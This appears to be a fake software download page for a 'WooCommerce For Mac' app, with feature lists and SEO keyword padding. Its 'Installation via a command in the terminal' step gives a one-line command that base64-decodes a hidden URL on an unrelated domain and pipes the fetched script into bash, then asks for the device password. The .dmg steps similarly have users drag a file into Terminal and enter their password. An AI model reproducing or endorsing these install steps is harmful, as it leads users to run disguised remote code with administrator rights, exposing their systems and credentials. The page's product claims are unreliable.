 # WooCommerce For Mac — Download For Mac OS 😊
![logo](https://store.webkul.com/media/catalog/product/cache/1/image/9df78eab33525d08d6e5fb8d27136e95/w/e/webkul_store_woocommerce_pos_macintosh_desktop_app_1__1.png)
WooCommerce For Mac is a powerful desktop application designed to manage your e-commerce store directly from your Mac. Built for macOS users, this app simplifies product management, order tracking, and sales analytics for WooCommerce store owners. Follow the instructions below to install WooCommerce For Mac and streamline your online business operations.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/woocom)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install WooCommerce For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🛒 **Product Management**: Easily add, edit, and organize products for your online store.
- 📦 **Order Tracking**: Monitor and manage customer orders with real-time updates.
- 📊 **Sales Analytics**: Access detailed reports to track revenue and performance metrics.
- 🔄 **Seamless Syncing**: Sync your store data across devices for consistent management.
- 🔔 **Instant Notifications**: Receive alerts for new orders and customer inquiries.
- 🔒 **Secure Operations**: Protect your store data with robust encryption and authentication.

## About WooCommerce For Mac

WooCommerce For Mac is a dedicated desktop application crafted for macOS users who run e-commerce stores powered by WooCommerce. This app brings the power of WooCommerce’s robust platform to your Mac, allowing you to manage products, track orders, and analyze sales data without relying on a browser. Optimized for performance, it offers a native macOS experience with a sleek interface and fast load times. Keywords like *WooCommerce Mac app*, *e-commerce management Mac*, and *free WooCommerce download* ensure this tool is easily discoverable for store owners seeking efficient solutions.

Designed specifically for macOS, WooCommerce For Mac integrates seamlessly with your workflow, providing a streamlined way to manage your online store. From adding new products to processing orders and generating sales reports, the app simplifies complex e-commerce tasks. Its offline capabilities and real-time syncing make it a reliable choice for busy entrepreneurs. Search terms like *WooCommerce for Mac free* and *Mac e-commerce software* enhance its visibility for users looking for free, powerful tools.

WooCommerce For Mac empowers store owners with advanced features like customizable dashboards, inventory management, and integration with popular payment gateways. The app’s intuitive design makes it accessible for beginners while offering the depth needed for experienced e-commerce professionals. By leveraging keywords such as *WooCommerce desktop app* and *e-commerce analytics Mac*, the app attracts users searching for a comprehensive solution to manage their online businesses.

With regular updates to ensure compatibility with the latest macOS versions, WooCommerce For Mac delivers a secure and efficient experience. Its robust security features protect sensitive store data, while its user-friendly interface simplifies daily operations. Whether you’re searching for *free WooCommerce Mac* or *e-commerce management software*, this app provides unmatched value for anyone looking to optimize their WooCommerce store on a Mac.

## Advantages of WooCommerce For Mac

- 🌟 **Mac-Optimized Interface**: A sleek, intuitive design tailored for macOS users.
- ⚡ **High Performance**: Fast load times and smooth operation for efficient store management.
- 📈 **Advanced Analytics**: Track sales and performance with detailed, customizable reports.
- 🛠 **Customizable Workflows**: Tailor the app to fit your store’s unique needs.
- 🆓 **Free to Use**: Access powerful e-commerce tools at no cost, ideal for small businesses.
- 🔄 **Real-Time Syncing**: Keep your store data consistent across all devices.

## 🖼 Preview

![Dashboard View](https://woocommerce.com/wp-content/uploads/2020/04/start-woo@2x.jpg)  
*Manage your online store with an intuitive and centralized dashboard.*

![Product Management](https://woocommerce.github.io/woocommerce-rest-api-docs/images/woocommerce-api-keys-settings-02dfb1f9.png)  
*Easily add, edit, and organize products for your e-commerce store.*

![Order Tracking](https://i.postimg.cc/4xY7N5pF/woocommerce-orders.jpg)  
*Track and manage customer orders with real-time updates.*

![Analytics Overview](https://i.postimg.cc/7hB9X3kD/woocommerce-analytics.jpg)  
*Monitor sales and performance with detailed analytics reports.*

## 🔍 Tags

woocommerce, woocommerce app, woocommerce desktop, woocommerce for mac, woocommerce download woocommerce pricing, woocommerce wordpress, woocommerce bookings, commerce b2b, woocommerce website, woocommerce webshop, b2b woocommerce, WooCommerce for Mac, WooCommerce Mac app, e-commerce management Mac, free WooCommerce download, WooCommerce desktop app, Mac e-commerce software, WooCommerce for Mac free, e-commerce analytics Mac, online store management Mac, WooCommerce store app, e-commerce tools Mac
